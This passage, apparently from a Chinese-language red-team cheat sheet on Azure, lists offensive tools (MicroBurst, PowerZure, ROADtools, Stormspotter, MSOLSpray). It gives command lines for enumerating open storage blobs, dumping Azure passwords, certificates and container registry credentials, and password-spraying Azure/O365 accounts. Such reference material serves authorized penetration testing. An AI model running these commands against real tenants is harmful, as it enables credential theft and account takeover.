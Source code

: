 [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)

寻找开放的存储 blobs

```
Invoke-EnumerateAzureBlobs -Base $BaseName
```

导出 SSL/TLS 证书

```
Get-AzPasswords -ExportCerts Y
```

Azure 容器注册表转储

```
Get-AzPasswords
Get-AzACR
```

## PowerZure

Azure 安全评估工具

https://github.com/hausec/PowerZure

## 道路工具

与 Azure AD 交互的框架

【https://github.com/dirkjanm/ROADtools 

## 风暴观察者

用于绘制 Azure 和 Azure AD 对象的 Red team 工具

[https://github.com/Azure/Stormspotter](https://github.com/Azure/Stormspotter)

## MSOLSpray

密码喷射工具 Azure/O365

[https://github.com/dafthack](https://github.com/dafthack)

```
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Spring2020
```